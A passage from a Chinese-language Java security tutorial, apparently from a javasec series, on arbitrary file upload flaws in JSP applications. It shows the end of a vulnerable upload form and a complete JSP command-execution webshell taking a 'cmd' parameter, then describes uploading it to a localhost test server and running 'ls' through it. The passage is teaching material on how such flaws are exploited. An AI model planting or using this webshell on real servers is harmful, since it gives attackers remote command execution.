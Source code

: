 ```jsp
        文件: <input id="file" name="file" type="file"/>
    </p>
    <input name="submit" type="submit" value="Submit"/>
</form>
</body>
</html>
<%
    }
%>
```

**示例 - 本地命令执行后门代码：**

```jsp
<%@ page import="java.io.InputStream" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<pre>
<%
    String[] cmd = request.getParameterValues("cmd");
    Process process = Runtime.getRuntime().exec(cmd);
    InputStream in = process.getInputStream();
    int a = 0;
    byte[] b = new byte[1024];

    while ((a = in.read(b)) != -1) {
        out.println(new String(b, 0, a));
    }

    in.close();
%>
</pre>
```

因为Web应用未检测用户上传的文件合法性导致了任意文件上传漏洞，访问示例中的文件上传地址：[http://localhost:8000/modules/servlet/fileupload/file-upload.jsp](http://localhost:8000/modules/servlet/fileupload/file-upload.jsp)，并选择一个恶意的jsp后门(示例上传的是一个本地命令执行的后门):

<img src="https://oss.javasec.org/images/image-20200921003740246.png" alt="image-20200921003740246" />

后门成功的写入到了网站目录：

![image-20200921003719254](https://oss.javasec.org/images/image-20200921003719254.png)

访问命令执行后门测试：[http://localhost:8000/uploads/cmd.jsp?cmd=ls](http://localhost:8000/uploads/cmd.jsp?cmd=ls)，如下图：

<img src="https://oss.javasec.org/images/image-20200921003841786.png" alt="image-20200921003841786" />

## 2. Servlet 3.0 内置文件上传解析

Servlet3.0 新增了对文件上传请求解析的支持，`javax.servlet.http.HttpServletRequest#getParts`，使用`request.getParts();`即可获取文件上传包解析后的结果，从此不再需要使用第三方jar来处理文件上传请求了。
